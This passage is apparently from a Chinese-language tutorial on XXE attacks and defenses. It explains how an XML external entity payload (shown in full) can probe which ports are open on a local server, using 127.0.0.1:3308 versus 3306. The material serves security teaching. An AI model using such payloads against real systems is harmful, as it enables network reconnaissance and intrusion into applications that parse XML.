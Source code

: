 ![image-20240803193339180](XXE渗透与防御/image-20240803193339180.png)	

也可用来测试本地服务器的端口情况。由于没有3308接口开放，所以会报错，但是换成3306不会报错，这也说明这个端口是开放的。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[<!ENTITY  xxe SYSTEM "http://127.0.0.1:3308"> ]>
<login>&xxe;</login>
```

![image-20240803194111614](XXE渗透与防御/image-20240803194111614.png)	
